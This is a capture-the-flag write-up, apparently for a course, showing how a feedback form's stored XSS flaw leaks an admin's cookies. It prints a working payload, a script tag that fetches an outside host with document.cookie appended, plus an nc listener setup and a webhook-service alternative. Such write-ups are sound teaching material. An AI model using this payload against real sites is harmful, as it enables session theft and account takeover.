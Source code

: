 # NGPEW Feedback Form
# Difficulty: Easy

Prompt: I found this feedback form on NGPEW's website, but I'm not convinced that their admins are actually
reading the feedback. In case they are, can you steal their cookies? I have a feeling there's something 
hidden there.

From the prompt, it seems like we need to steal the admin's cookies somehow. By using the feedback form, we
notice that the form seems to wait a few seconds, then responds with "An admin has reviewed your feedback."
In addition, the website gives us a link to see the admin view of our feedback.

Let's try putting in an HTML tag as our payload and looking at the admin view: 
`<b>test</b>`

We see that the b tag was not filtered and is shown directly to the admin. This indicates that there is a 
Cross-Site Scripting (XSS) vulnerability. 

We can leak the admin's cookies by writing some JavaScript that sends `document.cookies` to some remote 
website. For example, I can log onto `skipper.cs.utexas.edu` and run `nc -l 3000`. This opens a TCP 
listener on port 3000, which I can then send an HTTP request to, since HTTP runs on TCP. Once I have this
listener open, I can use the following payload to get JavaScript running on the admin view and leak the 
cookies to my remote server through an HTTP request:  
```<script>fetch('http://chicken-avocado-wrap.cs.utexas.edu:3000/' + document.cookie)</script>```

Finally, the flag appears in my `nc` console. 

Option 2:

- use webhook.site or any other service that can listen in
- apply the payload as before with the updated address and the flag will appear in the get request
